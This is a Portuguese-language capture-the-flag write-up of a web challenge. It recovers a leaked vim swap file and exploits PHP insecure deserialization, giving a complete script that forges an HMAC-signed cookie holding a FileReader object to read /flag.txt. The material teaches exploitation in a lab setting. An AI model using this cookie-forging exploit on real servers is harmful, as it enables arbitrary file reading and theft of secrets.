



**Dificuldade:** Médio

**Pontos:** 10

## Descrição do Desafio

Você foi chamado para investigar um possível incidente de segurança em um sistema web. Durante a análise, foi identificado que um arquivo confidencial no servidor pode ter sido acessado indevidamente.

## Reconhecimento

A investigação foi iniciada utilizando o **dirsearch** para explorar a estrutura de diretórios do servidor e identificar arquivos sensíveis.

```bash
dirsearch -u http://ctf-web02.alquymia.com.br/
```

Após alguns segundos, consegui localizar o arquivo **.index.php.swp**, que é um arquivo temporário que pode conter dados sensíveis.

## Recuperação do Arquivo

O arquivo **.index.php.swp** pode ser recuperado com a seguintes comandos

```bash
wget http://ctf-web02.alquymia.com.br/.index.php.swp
vim -r index.php
[Enter]
```

## Exploração da Vulnerabilidade

Após recuperar o arquivo **.index.php.swp**, identifiquei um código vulnerável à deserialização insegura. A classe **FileReader** é responsável por ler o conteúdo de um arquivo, e o seu destrutor (`__destruct`) é chamado quando a instância da classe é destruída, revelando o conteúdo do arquivo especificado na propriedade **$filename**.

Aqui está o trecho relevante do código:

```php
class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

```

A vulnerabilidade permite que um atacante manipule a propriedade **$filename** ao forjar um token. Para explorar isso, criei um token com um payload que define a propriedade **$filename** para **/flag.txt**

### Criação do Token

Utilizando as funções de criação e decodificação do cookie, podemos forjar um token válido. O código PHP a seguir cria o payload necessário para acessar a **flag.tx**t:

```php
<?php

class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

$key = 'my_secret_key_1234'; 

function createSecureCookie($data, $key) {
    $serialized_data = serialize($data); 
    $encoded_data = base64_encode($serialized_data); 
    $hmac = hash_hmac('sha256', $encoded_data, $key);
    return base64_encode($encoded_data . '::' . $hmac); 
}

// Criar o payload
$data = new FileReader();
$data->filename = '/flag.txt';
$token = createSecureCookie($data, $key);

// Encodar o token em URL
$encoded_token = urlencode($token);

// Exibir o token encodado
echo $encoded_token."\n\n";
?>
```

### Executando o Script

1. O código acima deve ser salvo em um arquivo chamado `create_token.php`.
2. O script pode ser executado no terminal utilizando o PHP:
    
    ```bash
    php create_token.php
    ```
    
3. O script exibirá um token



### Usando o Token

O token deve ser definido como um cookie **user_data** e acessado na página que processa esse cookie. O destrutor da classe **FileReader** será invocado, permitindo que o conteúdo de **/flag.txt** seja exibido.

Para definir o cookie no navegador, deve-se acessar o console de desenvolvimento e navegar até a aba "Application". 
A seguir, o token pode ser adicionado na seção de cookies.



Após definir o cookie, ao acessar a página correspondente, o conteúdo da **/flag.txt** aparecerá no final da fonte da página.


